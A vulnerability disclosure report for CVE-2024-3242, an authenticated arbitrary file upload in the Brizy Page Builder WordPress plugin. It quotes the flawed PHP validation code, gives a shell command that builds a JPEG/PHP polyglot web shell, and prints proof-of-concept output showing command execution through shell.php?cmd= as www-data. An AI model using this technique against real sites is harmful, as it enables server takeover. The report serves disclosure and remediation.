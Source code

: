 # Post Report Info

- Link: https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/brizy/brizy-page-builder-2444-authenticated-contributor-arbitrary-file-upload
- CVE: 2024-3242

# Brizy – Page Builder Authenticated (Contributor+) Arbitrary File Upload

The Brizy – Page Builder WordPress Plugin is vulnerable to a contributor level authenticated arbitrary file upload when importing a new block by uploading a zip file. There is insufficient file validation, allowing for PHP files to be uploaded providing they are also valid image files.

## Affected Plugin

* **Title**: Brizy – Page Builder
* **Active installations**: 80k
* **Version**: <= 2.4.41
* **Slug**: brizy
* **Link**: https://wordpress.org/plugins/brizy/

## Root Cause

This vulnerability is possible because contributor level users can by default upload zip files that are unpacked to add blocks. These blocks can contain a list of images, that are not properly validated allowing for the upload of arbitrary files including a PHP shell. 

In [editor/zip/archiver.php](https://plugins.trac.wordpress.org/browser/brizy/trunk/editor/zip/archiver.php#L264) in the function `storeImages`, the filename is obtained from the zip file (using basename of the path), this is then used on in `file_put_contents` without checking the file extension, as can be seen in the snippet below:

```php
$basename = basename($path);
$imageContent = $z->getFromName($path);

if (!$this->validateImageContent($basename, $imageContent)) {
    continue;
}

$original_asset_path = $urlBuilder->page_upload_path("/assets/images/".$basename);
$original_asset_path_relative = $urlBuilder->page_upload_relative_path("/assets/images/".$basename);
wp_mkdir_p(dirname($original_asset_path));
file_put_contents($original_asset_path, $imageContent);
```

There is an attempt to protect against this, by validating the image type. In [editor/zip/archiver.php](https://plugins.trac.wordpress.org/browser/brizy/trunk/editor/zip/archiver.php#L547) the function `validateImageContent` is used to ensure that the uploaded file is a valid image file.

```php
private function validateImageContent($name, $content)
{
    $tempName = get_temp_dir().md5($name);
    file_put_contents($tempName, $content);
    $isImage = file_is_valid_image($tempName);
    unlink($tempName);

    return $isImage;
}
```

However, it is trivial to create a valid image file that is also a valid PHP file and because there is no file name check we can create images with `.php` extensions. For example, the following shell command will take a valid image and a valid php file and combine them into a single file that will pass this check (jpg images are valid with junk added to the end, PHP inside exif data would also have worked):

```shell
cat image.jpg code.php > shell.php
```

## Impact

The vulnerability allows any contributor or high-level user to execute arbitrary commands on the host system, leading to a complete breach. This results in a total compromise of the system's confidentiality, integrity, and availability. Such an exploit can grant unauthorized access to sensitive data, alter or delete critical information, and disrupt service operations. The severity of this impact underscores the urgent need for prompt remediation to prevent potential exploitation and to safeguard the system and its data.

## Remediation

- Restrict the file extensions that uploaded images can have. Where possible use built-in WordPress to hand this uploading rather than rolling your own, as they have additional protection already.

## Proof of Concept

1. Install and activate the plugin
2. Modify the provided PoC (`brizy-rce2.py`) with the username/password of a contributor level user. Note that this script will upload the zip file `exploit.zip` which is created by zipping the `uJ4WvfXuHyL8` folder. This folder contains a `data.json` file that contains the block information and `shell.php` a valid image file that is also a shell.
3. Run the PoC script `python3 brizy-rce2.py`. The shell will be uploaded to a path like `/var/www/html/wp-content/uploads/brizy/15/assets/images/shell.php` (the script will try to guess the id (`15` in this example) and the output should look like the following:

```
❯ python3 brizy-rce2.py
[+] Login Successful
[+] Nonce d3afb16f8a
[+] Version 279-wp
[+] Uploading zip
{'success': True, 'data': {'success': [{'uid': '7afa8300d36b7a117644a7640ad072b3', 'status': 'publish', 'dataVersion': 1, 'data': '{"type":"Section","value":{"_styles":["section"],"items":[{"type":"SectionItem","value":{"_styles":["section-item"],"items":[{"type":"Wrapper","value":{"_styles":["wrapper","wrapper--richText"],"items":[{"type":"RichText","value":{"_styles":["richText"],"linkSource":"page","linkType":"page","_id":"tkXfOxljiVdS","_version":2,"text":"<p>Hello text</p>"}}],"_id":"lFEBoDOomnJS"}},{"type":"Cloneable","value":{"_styles":["wrapper-clone","wrapper-clone--button"],"items":[{"type":"Button","value":{"_styles":["button"],"linkSource":"page","linkType":"page","_id":"kOV1swiqlypR"}}],"_id":"krcoXYDy4Ozf"}},{"type":"Wrapper","value":{"_styles":["wrapper","wrapper--embedCode"],"items":[{"type":"EmbedCode","value":{"_styles":["embedCode"],"_id":"wjr3pLVOoJIP","code":"<script>alert(1)</script>"}}],"_id":"rRhh2CSiCwBg"}}],"_id":"xPgvR7WPlXs_","paddingType":"ungrouped","paddingTop":74}},{"type":"SectionItem","value":{"_styles":["section-item"],"items":[{"type":"Wrapper","value":{"_styles":["wrapper","wrapper--richText"],"items":[{"type":"RichText","value":{"_styles":["richText"],"linkSource":"page","linkType":"page","_id":"xk0lPqOgoKMI","_version":2,"text":"<p>Hello text</p>"}}],"_id":"sVZkRKXZqiyW"}},{"type":"Cloneable","value":{"_styles":["wrapper-clone","wrapper-clone--button"],"items":[{"type":"Button","value":{"_styles":["button"],"linkSource":"page","linkType":"page","_id":"myK8i70KJ9NE"}}],"_id":"vvZ2Ti1MfK6L"}}],"_id":"aR0SIYUrmMsJ","paddingType":"ungrouped","paddingTop":74}}],"_id":"cPGOG2fks9Kc","membership":"off","slider":"on"},"blockId":"Kit2Blank000Light","meta":{"_thumbnailSrc":"https://e-t-cloud.b-cdn.net/1.3.3-beta2/kits/thumbs/Kit2Blank000Light.jpg","_thumbnailWidth":600,"_thumbnailHeight":311}}', 'meta': '{"extraFontStyles":[],"type":"normal","_thumbnailSrc":"lwgfgotmlvklzbmkgbqxyszxqrgnongx","_thumbnailWidth":600,"_thumbnailHeight":109,"_thumbnailTime":1706896160571}', 'title': '', 'tags': '', 'author': '4', 'isCloudEntity': False, 'synchronized': False, 'synchronizable': True}], 'errors': []}}
[?] Finding Shell:
[+] Shell: id
└─ uid=33(www-data) gid=33(www-data) groups=33(www-data)
[+] Shell: /wp-content/uploads/brizy/15/assets/images/shell.php?cmd=id
[+] Testing Shell:
[+] Shell: id
└─ uid=33(www-data) gid=33(www-data) groups=33(www-data)
[+] Shell: pwd
└─ /var/www/html/wp-content/uploads/brizy/15/assets/images
```